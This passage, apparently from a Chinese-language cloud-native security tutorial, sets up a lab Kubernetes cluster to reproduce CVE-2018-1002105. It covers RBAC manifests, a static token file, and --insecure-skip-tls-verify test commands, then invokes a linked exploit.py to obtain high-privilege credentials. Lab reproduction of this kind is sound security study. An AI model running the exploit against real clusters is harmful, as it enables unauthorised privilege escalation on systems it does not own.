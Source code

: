 接着需要准备一些文件，文件地址：https://github.com/Metarget/cloud-native-security-book/tree/main/code/0403-CVE-2018-1002105

下载这些文件后，创建相应资源

```yaml
kubectl apply -f cve-2018-1002105_namespace.yaml
kubectl apply -f cve-2018-1002105_role.yaml
kubectl apply -f cve-2018-1002105_rolebinding.yaml
kubectl apply -f cve-2018-1002105_pod.yaml
```

配置用户认证

```yaml
cp test-token.csv /etc/kubernetes/pki/test-role-token.csv
```

在 API Server 的配置文件 /etc/kubernetes/manifests/kube-apiserver.yaml 中容器的启动参数部分末尾（spec.container.command）增加一行配置

```yaml
--token-auth-file=/etc/kubernetes/pki/test-role-token.csv
```

等待 API Server 重启，此时场景就搭建完毕了，下面测试下，场景是否正常

```yaml
kubectl --token=password --server=https://172.16.214.18:6443 --insecure-skip-tls-verify exec -it test -n test /bin/hostname
kubectl --token=password --server=https://172.16.214.18:6443 --insecure-skip-tls-verify get pods -n kube-system
```

结果显示能够对指定 Pod 执行命令，但是不能执行其他越权操作，符合预期场景。

<img width="1100" src="/img/1649994551.png">

## 漏洞利用

使用脚本获得高权限凭证文件，脚本地址：https://github.com/Metarget/cloud-native-security-book/blob/main/code/0403-CVE-2018-1002105/exploit.py

```yaml
python3 exploit.py --target 172.16.214.18 --port 6443 --bearer-token password --namespace test --pod test
```
